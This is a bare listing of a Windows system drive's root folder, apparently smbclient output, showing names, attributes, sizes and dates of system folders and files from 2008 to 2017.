  .rnd                                A     1024  Mon Jul 27 13:51:24 2015
  Boot                              DHS        0  Mon Jul 27 14:16:53 2015
  bootmgr                          AHSR   333257  Sat Apr 11 21:42:12 2009
  BOOTSECT.BAK                      ASR     8192  Wed Jul 21 09:01:52 2010
  Certificate                         D        0  Sun Jun 23 17:20:48 2013
  Config.Msi                        DHS        0  Thu Feb 16 01:49:59 2017
  cpqsprt.trace                       A     8004  Wed Jul 21 08:59:57 2010
  cpqsystem                           D        0  Wed Jul 21 08:32:58 2010
  csv.err                             A       90  Sun May 20 15:35:38 2012
  csv.log                             A      278  Sun May 20 15:35:38 2012
  Documents and Settings            DHS        0  Sat Jan 19 19:53:20 2008
  Program Files                      DR        0  Thu Sep  8 16:24:36 2016
  Program Files (x86)                DR        0  Tue Nov 22 21:28:01 2016
  ProgramData                        DH        0  Thu Feb  9 16:51:52 2017
  Rename.bat                          A     1406  Wed Oct 26 15:11:19 2011
  System Volume Information         DHS        0  Thu Feb 16 01:49:56 2017
  temp                                D        0  Fri Aug  9 17:16:55 2013
  Users                              DR        0  Wed Nov 30 20:00:08 2016
  Windows                             D        0  Wed Feb 15 23:18:12 2017

